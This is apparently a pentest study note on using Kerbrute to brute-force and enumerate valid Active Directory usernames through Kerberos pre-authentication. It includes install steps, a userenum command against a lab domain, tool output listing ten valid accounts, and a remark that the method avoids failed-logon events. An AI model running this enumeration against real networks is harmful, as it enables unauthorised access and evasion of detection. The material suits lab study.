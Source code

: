 # Enumeration w/ Kerbrute
Enumeration tool used to brute-force and enumerate valid AD users by abusing Kerberos pre-authentication.

## Abusing Pre-Authentication Overview
- By brute-forcing Kerberos pre-authentication, you do not trigger `account failed to log on` events
- When brute-forcing via Kerberos, you can brute-force only by sending a single UDP frame to KDC

## Kerbrute Installation
1) Download from https://github.com/ropnop/kerbrute/releases
2) Rename kerbrute_linux_amd64 to kerbrute
3) Make kerbrute executable

<pre>chmod +x kerbrute</pre>

## Enumerating Users with Kerbrute
Allows you to know which user accounts are on the tagret domain and which accounts could be used to access the network.

1) Cd into directory with kerbrute
2) Download the following wordlist: https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/User.txt
3) Brute-force user accounts from a Domain Controller
<pre>./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt

   __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 09/10/23 - Ronnie Flathers @ropnop

2023/09/10 18:14:57 >  Using KDC(s):
2023/09/10 18:14:57 >   CONTROLLER.local:88

2023/09/10 18:14:57 >  [+] VALID USERNAME:       administrator@CONTROLLER.local
2023/09/10 18:14:57 >  [+] VALID USERNAME:       admin1@CONTROLLER.local
2023/09/10 18:14:57 >  [+] VALID USERNAME:       admin2@CONTROLLER.local
2023/09/10 18:14:57 >  [+] VALID USERNAME:       httpservice@CONTROLLER.local
2023/09/10 18:14:57 >  [+] VALID USERNAME:       machine1@CONTROLLER.local
2023/09/10 18:14:57 >  [+] VALID USERNAME:       machine2@CONTROLLER.local
2023/09/10 18:14:57 >  [+] VALID USERNAME:       sqlservice@CONTROLLER.local
2023/09/10 18:14:57 >  [+] VALID USERNAME:       user2@CONTROLLER.local
2023/09/10 18:14:57 >  [+] VALID USERNAME:       user1@CONTROLLER.local
2023/09/10 18:14:57 >  [+] VALID USERNAME:       user3@CONTROLLER.local
2023/09/10 18:14:57 >  Done! Tested 100 usernames (10 valid) in 0.337 seconds
</pre>

